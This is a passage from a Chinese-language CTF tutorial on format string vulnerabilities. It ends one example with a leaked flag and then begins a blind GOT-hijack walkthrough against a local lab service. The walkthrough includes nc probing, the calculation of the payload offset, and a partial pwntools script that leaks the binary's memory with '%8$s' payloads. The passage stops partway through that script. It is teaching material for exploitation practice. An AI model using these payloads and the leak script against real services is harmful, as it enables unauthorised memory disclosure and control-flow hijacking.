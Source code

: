 最後在輸出中簡單看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子2-盲打劫持got

源碼以及部署文件均已經在 [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_got) 文件夾中。

#### 確定程序位數

通過簡單地測試，我們發現這個程序是格式化字符串漏洞函數，並且程序爲 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

這次啥也沒有回顯，又試了試，發現也沒啥情況，那我們就只好來泄露一波源程序了。

#### 確定偏移

在泄露程序之前，我們還是得確定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

據此，我們可以知道格式化字符串的起始地址偏移爲 6。

#### 泄露binary

由於程序是64位，所以我們從 0x400000 處開始泄露。一般來說有格式化字符串漏洞的盲打都是可以讀入 '\x00' 字符的，，不然沒法泄露怎麼玩，，除此之後，輸出必然是 '\x00' 截斷的，這是因爲格式化字符串漏洞利用的輸出函數均是 '\x00' 截斷的。。所以我們可以利用如下的泄露代碼。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 說明有\n，出現新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
```